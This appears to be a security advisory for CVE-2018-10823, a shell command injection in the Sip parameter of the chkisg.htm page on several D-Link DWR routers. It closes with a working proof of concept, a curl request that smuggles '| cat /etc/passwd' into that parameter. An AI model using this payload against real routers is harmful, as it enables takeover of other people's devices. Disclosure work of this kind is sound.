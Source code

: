 ## Shell command injection
CVE: CVE-2018-10823

CVSS v3: 9.1
AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H

Description: An issue was discovered on D-Link routers:

DWR-116 through 1.06,
DWR-512 through 2.02,
DWR-712 through 2.02,
DWR-912 through 2.02,
DWR-921 through 2.02,
DWR-111 through 1.01,
and probably others with the same type of firmware.
An authenticated attacker may execute arbitrary code by injecting the shell command into the chkisg.htm page Sip parameter. This allows for full control over the device internals.

PoC:

Login to the router.
Request the following URL after login:
`$ curl http://routerip/chkisg.htm%3FSip%3D1.1.1.1%20%7C%20cat%20%2Fetc%2Fpasswd`
See the passwd file contents in the response.